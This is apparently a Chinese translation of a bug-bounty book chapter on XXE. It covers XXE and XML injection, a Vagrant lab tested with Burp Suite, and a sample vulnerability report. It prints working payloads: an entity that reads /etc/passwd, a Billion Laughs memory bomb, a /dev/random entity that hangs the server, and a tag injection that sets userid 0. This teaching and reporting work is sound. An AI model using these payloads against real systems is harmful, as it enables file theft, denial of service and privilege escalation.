







# 第七章：检测 XML 外部实体

**XXE** 是 **XML 外部实体**（**XML External Entity**）的缩写。作为一种攻击方式，它利用应用程序 XML 解析器配置中的缺陷，执行一系列恶意操作，包括暴露受保护文件的内容，或导致内存的指数级增长，最终引发拒绝服务（DoS）攻击。

XML 与 JSON 一样，是驱动现代互联网数据传输的重要组成部分。作为一种同时支持人类和机器可读方式的文档编码系统，XML 在某些年代的技术栈中广泛应用，并且在一些老旧的 API 架构中仍然存在，如 **简单对象访问协议**（**SOAP**），尽管现代 Web 应用越来越依赖于 JSON 作为标准格式。2017 年，OWASP 将 XXE 列为十大 Web 漏洞中的第四位，而在 2014 年的调查中，它并未出现在名单中。

攻击的本质源于 XML 的实体概念，这是一种将字符串与唯一别名或保留字组合的原始数据类型。当 XML 解析器展开实体时，它会查找并存储 URI 中的内容，并将其添加到最终的 XML 文档中。如果该实体指向 Web 服务器上的敏感文件，则该信息将被泄露。输入 XML 的途径有多种，包括应用程序表单输入。由于该漏洞涉及通过表单输入提交后 XML 代码被错误解析（并执行），因此 XXE 可以被归类为一种代码注入形式。

XXE 的一些风险因素来自于 XML 解析器的弱配置或错误配置：如果解析器接受包含有害数据的 **文档类型声明**（**DTD**），并且它处理该 DTD 并解析外部实体，则该站点会面临风险。例如，如果你使用 PHP，该语言的文档明确说明你需要将 `libxml_disable_entity_loader` 变量设置为 `true`，以禁用加载外部实体的能力（[`secure.php.net/manual/en/function.libxml-disable-entity-loader.php`](https://secure.php.net/manual/en/function.libxml-disable-entity-loader.php)）。

本章内容包括：

+   XML 处理器如何可能被攻破的详细信息

+   如何构造 XXE 代码片段及在哪里找到社区提供的代码列表

+   用于检测 XXE 的工具

+   如何将 XXE 漏洞从发现、验证到包含在漏洞报告提交中

# 技术要求

在本章中，我们将使用我们标准版本的 Chrome（`66.0.3359.139`），并搭配新的开发环境部署系统 Vagrant，它与 VirtualBox 配合使用，将允许我们启动故意存在漏洞的 XXE 应用程序（我们之所以能使用它，得感谢 [`github.com/jbarone/xxelab`](https://github.com/jbarone/xxelab)）。VirtualBox 是一个**虚拟机**（**VM**）客户端，而 Vagrant 在此基础上添加了一层依赖关系和环境管理。

要安装 Vagrant 和 VirtualBox，从各自的下载页面选择适合你系统的客户端（[`www.vagrantup.com/downloads.html`](https://www.vagrantup.com/downloads.html) 和 [`www.virtualbox.org/wiki/Downloads`](https://www.virtualbox.org/wiki/Downloads)）。

# 一个简单的 XXE 示例

XXE 攻击有几种不同类型，它们可以尝试**远程代码执行**（**RCE**）或——正如我们在引言中所讨论的——从目标文件中泄露信息。这里是第二种类型的一个例子，来自 OWASP 对 XXE 的介绍：

```
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

在这里，你可以看到外部实体及其尝试——通过位置字符串的`file`前缀和随后的系统路径——访问易受攻击的服务器上的敏感文件。

XXE 还可以用来通过一种名为**千亿笑声**的 XML 变体实施 DoS 攻击。通过逻辑炸弹（一段代码，当执行时会导致主机的资源消耗达到最大）触发的 DoS 攻击与通过一个或多个外部代理（如果有多个外部代理，那么将是 DDoS 攻击）引发的 DoS 攻击有所不同。DoS 攻击通常被认为更容易缓解，因为它只有一个攻击源——网络管理员不需要与多个恶意流量源作斗争。但来自单一来源的 DoS 攻击也意味着攻击者只需访问该易受攻击的输入，而不是通过一个由恶意机器组成的僵尸网络生成流量。

这是来自维基百科页面中关于“千亿笑声”XML 片段的一个例子：

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

你可以看到只有一个根元素，`<lolz>&lol9;</lolz>`。当该元素的文本`&lol9;`被展开时（因为它是一个已定义的实体），解析器查看并看到实体`&lol8;`并试图展开它，接着是`&lol7;`，然后是`&lol6;`，依此类推，通过实体列表进行扩展——这就像是不断堆叠的海龟，最终导致内存的膨胀。

结果是，在所有实体扩展处理完成后，这个小的、不到 1 KB 的片段将会生成 10 的 9 次方`lols`，总共使用超过 3 GB 的内存。

千亿笑声攻击不仅仅限于 XML（你可以在 YAML 或任何其他支持引用的文件格式中进行类似的攻击），但它们清楚地展示了一个没有防护的 XXE 漏洞如何造成破坏。

# XML 注入向量

XML 注入和 XML 解析相关的漏洞并不总是从客户端代码中可以观察到——XML 处理链的一部分可能在服务器端处理你的客户端输入时发生。

在 OWASP XML 注入示例中，客户端表单（假设为了讨论的方便，它正在发起一个`GET`请求）将创建一个看起来像这样的 HTTP 请求：

```
Username: james
Password: Thew45p!
E-mail: james.mowry@terran.gov
```

然后，在插入到类似 XML 文档的数据库之前，应用程序将构建一个单独的 XML 节点：

```
<user> 
    <username>james</username> 
    <password>Thew45p!</password> 
    <userid>500</userid>
    <mail>james.mowry@terran.gov</mail>
</user>
```

你可以利用这种行为进行不同种类的注入攻击，包括基于标签的注入。这时，你会在输入中添加一个有效的 XML 标签，通过伪造一个有价值的属性（假设`<userid>`为 0 代表管理员用户），并通过类似这样的 HTTP 请求进行操作：

```
Username: james
Password: Thew45p!</password><!--
E-mail: --><userid>0</userid><mail>james.mowry@terran.gov
```

当这个 HTTP 请求被组装成类似 XML 的数据存储时，结果是其中一个冗余的`<userid>`标签被过滤掉，生成一个完全有效的记录，同时也提升了 James 的权限。

最终结果如下：

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<users> 
    <user> 
        <username>bob</username> 
        <password>!4rct0R</password> 
        <userid>0</userid>
        <mail></mail>
    </user> 
    <user> 
        <username>helward</username> 
        <password>!nverteDW0rld</password> 
        <userid>500</userid>
        <mail>helward.mann@winverted.hmm</mail>
    </user> 
    <user> 
        <username>james</username> 
        <password>Thew45p!</password><!--</password> 
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>james.mowry@terran.gov</mail>
    </user>
</users>
```

# XML 注入与 XXE – 相辅相成

我们之前讲解了 XXE 漏洞的组成及嵌套实体扩展如何导致资源消耗呈指数增长。我们还讨论了如何通过 RESTful API 注入有效的 XML 结构，以便恶意标签在 XML 格式化中得以重现（我们使用了类似 XML 数据库的虚构案例，但这种分析适用于任何服务器端的 XML 处理层）。

你可以看到这两种攻击手段是如何互相补充的——如果你发现了一个有效的 XML 注入向量，那就为你定义和执行 XXE 验证提供了交付机制。

# 测试 XXE – 在哪里找到它，以及如何验证它

正如我们之前讨论的那样，任何提供给你的输入项都不需要声明应用程序接受 XML，才可能使服务容易受到 XXE 攻击：应用程序的 XML 解析层对你来说可能是透明的，将你通过 `GET` 或 `POST` 请求发送的数据拼接成一个 XML 文档。

除了在后台使用 XML 作为主要文档格式的服务外，还有许多 API 服务默认支持不同的数据格式。即使你发出的是 GET 请求并返回 JSON，你也可以通过尝试 XML 内容头（即 `Content-Type: application/xml`）来测试该 API 端点是否能将请求格式化为 XML。由于服务通常内建有在不同内容类型之间切换的能力，服务的拥有者可能并不知道它能将请求格式化为 XML。

# XXE – 一个端到端的示例

让我们设置 XXE 实验环境，以便我们能看到该漏洞的实际表现。下载 Vagrant、VirtualBox，并从 [`github.com/jbarone/xxelab`](https://github.com/jbarone/xxelab) 克隆 Git 仓库后，我们可以进入 `xxelab` 目录并运行 `vagrant up` 启动应用。下载完 Ubuntu 镜像和其他依赖项后，你的应用应该可以在 `http://192.168.33.10/` 上运行：



让我们在提交表单时输入一些测试值，确保我们的 Burp Suite 代理的拦截功能已开启：



在尝试提交表单后，我们可以前往 Burp 查看我们拦截的原始 HTTP 请求是什么样的：



看到我们的提交被格式化为 XML 后，我们可以尝试一个基本的实体扩展测试，使用`&example;`实体将我们的`email`表单值替换为测试信息：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Success"> ]>
<root><name>Edward Hawks</name><tel>5555555555</tel><email>&example;</email><password>roguemoon</password></root>
```

这是我们在拦截代理中输入的内容：



请注意，此应用程序旨在模拟通过错误信息尝试泄露数据的过程，因此它总是返回一个错误消息，声明所述的电子邮件（包含完整的电子邮件地址）不可用。这意味着，如果 XML 解析器容易受到实体扩展攻击，我们将在错误信息中看到成功的输出：



确实，攻击成功被记录下来了。

对于验证 XML 漏洞来说，这足以打开报告并开始提交过程。使用实体扩展替换值是一个无害的 PoC，但它指示了其他 XXE 攻击可能造成的损害。

但是，由于我们在本地进行操作，让我们做一些实际的破坏。利用我们对漏洞的了解，我们可以将拦截到的值替换为从 OWASP 的《XML 注入测试》（[`www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008)`](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008)))页面中获取的 XXE 片段：

```
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```

当服务器尝试扩展实体并访问`/dev/random`的内容时，它可能会导致服务器崩溃。这是因为`/dev/random`是一个特殊的伪随机数生成器，如果生成随机数时的熵不足，它会阻塞线程。在这里，我们将该片段输入到另一个拦截到的创建账户请求中：



转发请求后，我们看到服务器挂起——并且一直挂起。打开新标签页时，我们再也无法解析 IP 地址。我们成功地让它崩溃了！



# 收集报告信息

让我们来梳理一下写报告所需的信息。

# 分类

这就是 XXE 攻击。

# 时间戳

对于我们的时间戳，我们可以使用提交 XXE 实体替换请求时的大致时间。

# URL

漏洞的位置是应用程序索引，例如：

```
http://192.168.33.10/
```

# 载荷

在这里，我们可以输入我们用作验证实体扩展能力的 PoC 的 XML 片段：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Success"> ]>
<root><name>Edward Hawks</name><tel>5555555555</tel><email>&example;</email><password>roguemoon</password></root>
```

# 方法论

为了证明该服务容易受到 XXE 攻击，我们使用 Burp Suite 拦截并修改了一个 HTTP `POST`请求，将我们表单提交生成的 XML 文档替换为我们的攻击载荷。

# 重现步骤

我们的重现步骤是导航到表单，并使用代理工具（在我们的例子中是 Burp Proxy）将表单数据替换为我们的攻击载荷。

# 攻击场景

我们已经看到，指向 `/dev/random` 的实体扩展可以导致服务器崩溃。通过 XXE 攻击，我们还可以泄露像 `/etc/password` 这样的敏感服务器文件的内容，并且在某些情况下，执行远程代码执行（RCE）。

# 最终报告

让我们利用这些信息来格式化我们的提交：

```
CATEGORY: XXE attack

TIME: 2018-07-28 16:27 (16:27) UTC

URL: http://192.168.33.10/

PAYLOAD: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY example "Success"> ]>
<root><name>Edward Hawks</name><tel>5555555555</tel><email>&example;</email><password>roguemoon</password></root>

METHODOLOGY: The vulnerability was discovered by manually intercepting and editing the create account form to include the above entity replacement changes.

INSTRUCTIONS TO REPRODUCE:

1\. Navigate to the create account form at http://192.168.33.10/.

2\. Enter dummy values into the form and submit it.

3\. Intercept the generated HTTP POST request using a tool like Burp Proxy. Edit the XML data to include the payload above.

4\. Forward the POST request on to the server.

ATTACK SCENARIO:
In the case of this XXE attack, a malicious agent could submit entity expansion code to retrieve the contents of a sensitive file on the server, like the contents of /etc/password, or make a call to /dev/random and crash the server, or even use a different DoS method with the nested entity expansion strategy of a "Billion Laughs"-style attack (https://en.wikipedia.org/wiki/Billion_laughs_attack).
```

# 总结

本章中，我们介绍了 XXE，并涉及了 XML 解析攻击的性质，讨论了 XXE 在“亿万笑话”漏洞的历史背景下的情况，回顾了使许多 XML 解析器容易受到 XXE 攻击的特定弱点，并讨论了与 XXE 漏洞相关的一些可能攻击场景，此外还将 XXE 漏洞从发现到报告提交的全过程进行了分析。

在下一章，我们将讨论访问控制和通过模糊性增强安全性。

# 问题

1.  什么导致 XML 解析器容易受到 XXE 攻击？什么是一个配置错误的示例？

1.  如何使用 Burp 测试 XXE 漏洞？

1.  XXE 漏洞有哪些影响？涉及该漏洞的一些常见攻击场景是什么？

1.  什么是 `/dev/random`？

1.  你可以通过什么方式测试 XXE 漏洞的存在，而不会造成影响？

1.  什么是亿万笑话攻击？

1.  当某些服务（特别是 API 端点）使用 JSON 进行数据交换时，如何可能受到 XXE 攻击？

# 进一步阅读

你可以在以下链接中找到我们在本章中讨论的一些主题的更多信息：

+   **亿万笑话攻击**: [`en.wikipedia.org/wiki/Billion_laughs_attack`](https://en.wikipedia.org/wiki/Billion_laughs_attack)

+   **XXE 狩猎乐趣与利润**: [`www.bugcrowd.com/advice-from-a-bug-hunter-xxe/`](https://www.bugcrowd.com/advice-from-a-bug-hunter-xxe/)
